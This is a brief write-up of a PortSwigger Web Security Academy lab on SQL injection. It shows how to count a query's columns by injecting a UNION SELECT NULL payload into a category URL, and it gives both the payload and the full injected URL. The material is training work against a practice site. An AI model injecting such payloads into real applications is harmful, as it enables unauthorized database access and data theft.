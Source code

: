 [Source](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns)
## Task
Determine the number of columns returned by a query by performing a SQL injection attack using the `UNION` operator, which will return an additional row with null values.
## Solution
Go to the site
![[Pasted image 20241201175030.png]]
Choose any category (I chose `Gifts`). In `URL` we add
```SQL
'+UNION+SELECT+NUll,NULL,NULL--
```
To get this `URL`:
```URL
https://web-security-academy.net/filter?category=Gifts'+UNION+SELECT+NUll,NULL, NULL--
```
![[Pasted image 20241201175258.png]]